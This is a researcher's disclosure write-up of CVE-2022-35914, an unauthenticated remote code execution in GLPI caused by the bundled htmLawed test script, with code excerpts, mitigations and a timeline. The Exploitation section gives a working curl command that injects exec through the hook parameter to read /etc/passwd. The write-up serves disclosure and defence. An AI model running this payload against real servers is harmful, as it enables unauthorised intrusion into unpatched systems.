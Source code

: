 ```yaml
---
layout: post
title:  "GLPI htmlawed (CVE-2022-35914)"
category : CVE
tags :  CVE, GLPI, CVE-2022-35914
---
```

![glpi_logo](/assets/blog/glpi_logo.png)

## TL;DR;

![glpi_exploit.png](/assets/blog/glpi_exploit.png)

## Infos

On a recent pentest we faced an interesting scope with full up to date products and without any credentials.
After spend some time on bruteforce dns, folders, all the login form and doing all kind of stuff i get nothing interesting.
We found a GLPI product exposed on internet with a very recent vulnerability (an unauthenticated SQL injection, the vulnerability was publicized a weak before the pentest, and it was already patched on the scope x_x ).

GLPI is a php solution, the definition given by the vendor is _"GLPI stands for Gestionnaire Libre de Parc Informatique is a Free Asset and IT Management Software package, that provides ITIL Service Desk features, licenses tracking and software auditing."_ This solution is quite used in France and it make it a very good target for our pentest.

Starting on a product with a recent critical vulnerability is not a bad idea to start an investigation. This means the vendor care about patching and he will certainly be reactive if you find something interesting.

After few hours of code digging, i got some interesting things to dig more but nothing to get inside my scope without authentication.
On my research, i start digging on the vendor folder and there, i found a trivial vulnerability in the vendor folder of the GLPI product.


## Context

- The vulnerability is not in GLPI by itself but in the third party library HTMLAWED [https://www.bioinformatics.org/phplabware/internal_utilities/htmLawed/](https://www.bioinformatics.org/phplabware/internal_utilities/htmLawed/).
- The test script of the library was vulnerable in the version < v1.2.9. **The day I noticed the vendor of this vulnerability he patched the release package and his server.**, he was very reactive and thankful. Thanks to him !
- On GLPI this library is given in the release version with an example script (the composer version does not include this script, but the composer used on GLPI download the all package).

![glpi_composer.png](/assets/blog/glpi_composer.png)

- This will get the last version, so all should be fine no ?
- In fact the GLPI releases include the vendor folder directly on the release. So when you download version <= 9.5.8 or <= 10.0.2 you will get an old version of the library with the source code and also the htmLawedTest.php file with it.

![glpi_vendor.png](/assets/blog/glpi_vendor.png)

## Vulnerability description
- The issue append when the htmLawedTest.php is present and it is the case by default in glpi 9.x and 10.x (don't know about others) as GLPI directly get it with composer.

- On the GLPI application by default the path `/vendor/htmlawed/htmlawed/htmLawedTest.php` is available to all.

- In htmLawedTest.php the programmer use the user entry to setup the htmlawed configuration and give the users all configurations available to test the product.

```php
# htmlawedTest.php
...
if($do){
 $cfg = array();
 foreach($_POST as $k=>$v){
  if($k[0] == 'h' && $v != 'nil'){
   $cfg[substr($k, 1)] = $v;
  }
 }
...
$out = htmLawed($_POST['text'], $cfg, $_POST['spec']);
```

- As you can see the function htmlLawed is called with all parameters on our control.
- One of the available configuration options is a hook function. If the hook (or hook_tag) is controlled by the user he can setup a php execution where he can control the function name and the parameters (string or array, array, string or array). 

```php
# htmlawed.php
function htmLawed($t, $C=1, $S=array()){
    ...
    $C['hook'] = (!empty($C['hook']) && function_exists($C['hook'])) ? $C['hook'] : 0;
    ...
    if($C['hook']){$t = $C['hook']($t, $C, $S);}
```

- This match almost exactly the [PHP exec function signature](https://www.php.net/manual/fr/function.exec.php) but php is nice on variable types so we can use the exec function as the hook.

```php
exec(string $command, array &$output = null, int &$result_code = null): string|false
```

- So we got a command injection ($t is the user entry) and exec will override $C and $S.
- As $t is replaced with the result of the hook, this is just like a webshell we directly get the result of the command.

![glpi_lawed.png](/assets/blog/glpi_lawed.png)

![glpi_lawed_rce.png](/assets/blog/glpi_lawed_rce.png)

> Please note that there is other ways to exploit the vulnerability without exec, by using callback functions like array_map,call_user_func,... do not rely on disable_function on exec to patch the vulnerability

GLPI release a patch on their github the [14/09/2022](https://glpi-project.org/fr/glpi-10-0-3-disponible/) for glpi 10.0.x ([10.0.3](https://github.com/glpi-project/glpi/releases/tag/10.0.3)) and 9.5.x ([https://github.com/glpi-project/glpi/releases/tag/9.5.9](https://github.com/glpi-project/glpi/releases/tag/9.5.9)). Htmlawed already patched the vulnerability.(The patch in htmlawed was only an unset of the hook and hook_tag parameters coming from the example script, so be careful if you call the function in your code with users parameters).

## Impacts
- The impact of this vulnerability is an unauthenticated remote code execution so it is critical. (CVSS score 9.8)
- If your GLPI is exposed on internet you are on a critical risk (If it is your case, you shouldn't do that. A ticket and IT management software must be limited to internal network or at least should be behind a previous authentication portal).
- Anyway to quickly patch without upgrade you should delete the file /vendor/htmlawed/htmlawed/htmLawedTest.php and search for access to this file in your logs. (I also recommends you to disallow direct access to the vendor folder directly to avoid that kind of vulnerabilities).

## Traces of exploitation
- Search for /vendor/htmlawed/htmlawed/htmLawedTest.php in the logs to get traces of compromising.


## Exploitation

As simple as that :

![glpi_exploit.png](/assets/blog/glpi_exploit.png)


```bash
curl -s -d 'sid=foo&hhook=exec&text=cat /etc/passwd' -b 'sid=foo' http://localhost/vendor/htmlawed/htmlawed/htmLawedTest.php |egrep '\&nbsp; \[[0-9]+\] =\&gt;'| sed -E 's/\&nbsp; \[[0-9]+\] =\&gt; (.*)<br \/>/\1/'
```

![glpi_curl.png](/assets/blog/glpi_curl.png)

## Timeline

- 13/07 : 
    - declaration to htmlawed library vendor
    - cve open
    - declaration to glpi vendor
- 13/07: 
    - fix provided by htmlawed vendor
- 14/09:
    - glpi release version 10.0.3 with a fix
- 19/09:
    - CVE-2022-35914 is public
- 01/10:
    - Someone reverse the cve information and publish a public poc on github https://github.com/cosad3s/CVE-2022-35914-poc
- 03/10:
    - As all information are already public i release this blog post before the "1 month after cve is public" safe time i would like to take.

